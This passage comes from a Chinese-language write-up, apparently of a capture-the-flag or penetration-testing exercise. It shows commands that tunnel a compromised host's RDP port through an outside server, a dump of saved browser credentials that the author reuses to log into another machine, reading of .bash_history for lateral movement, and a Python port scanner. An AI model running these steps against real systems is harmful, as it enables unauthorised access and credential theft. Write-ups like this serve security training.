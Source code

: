 
```
996fbc973641eac5b8df26e30b5640a9.exe -slave 115.28.78.16 6666 0.0.0.0 3389
```
![image_1b6lfnmphdos1buvbvg447ro32n.png-18.3kB][7]

```
./portmap -m 2 -p1 6666 -h2 115.28.78.16 -p2 7777
```

服务器转发出来
![image_1b6lfon6c196us04k2r1i2g1v0l34.png-11.3kB][8]

终于搞定了

在当时找文件的时候，我发现xshell里有个ip

![image_1b6lgdu5fmarovecb41van1a0g3h.png-196.7kB][9]

密码是刚才的hint

```
==================================================
Entry Name        : https://www.baidu.com/
Type              : AutoComplete
Stored In         : Registry
User Name         : iamroot
Password          : abc@elk
Password Strength : Medium
==================================================

```

登陆上去mmp...flag是假的，还要继续找

# linux入侵 #

看看.bash_history有个提到很多次的ip是172.31.13.133

这里应该也是省略了步骤，bash_history里面应该是小m留下的，最开始应该是没有的，这里从arp表里也能看到这个ip


发现有python3，扫一波端口

```
#!/usr/bin/python3
# -*- coding: utf-8 -*-
from socket import *

def portScanner(host,port):
    try:
        s = socket(AF_INET,SOCK_STREAM)
        s.connect((host,port))
        print('[+] %d open' % port)
        s.close()
    except:
        print('[-] %d close' % port)

def main():
    setdefaulttimeout(1)
    for p in range(1,1024):
        portScanner('192.168.0.100',p)

if __name__ == '__main__':
    main()
```


  [1]: http://static.zybuluo.com/LoRexxar/pf1t32io7xaoujii6f9rrrcq/image_1b6eu5f6bk4o3l9jsl1g991tsp9.png
  [2]: http://static.zybuluo.com/LoRexxar/zwrf4r3h19lpbvxfy9gqqb17/image_1b6eu5u3ifqo1ajt77k1fdci4rm.png
  [3]: http://static.zybuluo.com/LoRexxar/pccg6rlisy1ghel0n4s4ijig/image_1b6l5grlb13m1n5s1tf9804m1t13.png
  [4]: http://static.zybuluo.com/LoRexxar/wk776ofeeq3lj0ws0zsxsi0r/image_1b6l64uhs1pu61fk35odp3h1uvh1g.png
  [5]: http://static.zybuluo.com/LoRexxar/jyn5s78owlpauf91e9ebusza/image_1b6l7encusqp42g1mh2bltgmh1t.png
  [6]: http://static.zybuluo.com/LoRexxar/oii146dyawdch04zh6tlocc8/image_1b6l7j4l81eved3u1q5mbppq052a.png
  [7]: http://static.zybuluo.com/LoRexxar/dsayrn7zx9whlhacoe8ngirr/image_1b6lfnmphdos1buvbvg447ro32n.png
  [8]: http://static.zybuluo.com/LoRexxar/venhfwmygje88z05ve8org85/image_1b6lfon6c196us04k2r1i2g1v0l34.png
  [9]: http://static.zybuluo.com/LoRexxar/vkafi9ufrmgjbywat28vnyxb/image_1b6lgdu5fmarovecb41van1a0g3h.png
  [10]: http://static.zybuluo.com/LoRexxar/mrstoosa1un6h4e12nw2umz8/image_1b6lr2rq41f1f9l7140f13bd82h3u.png